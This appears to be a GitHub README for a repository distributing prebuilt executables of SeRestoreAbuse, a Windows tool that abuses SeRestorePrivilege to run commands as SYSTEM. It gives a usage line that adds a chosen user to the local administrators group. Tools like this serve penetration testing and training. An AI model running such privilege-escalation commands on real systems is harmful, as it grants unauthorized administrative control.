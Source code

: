 # SeRestoreAbuse
SeRestoreAbuse Executes a command as SYSTEM when SeRestorePrivilege is assigned. In case it's disabled, the program will enable it for you.

Credit goes to xct <3. this is the main repo : https://github.com/xct/SeRestoreAbuse

This repo is just to have the prebuilt compiled exes to avoid manual compilation.

### Usage
```powershell
.\SeRestoreAbuse.exe "cmd /c net localgroup administrators <usernametobeaddedtoadministratorgrouphere> /add"
```
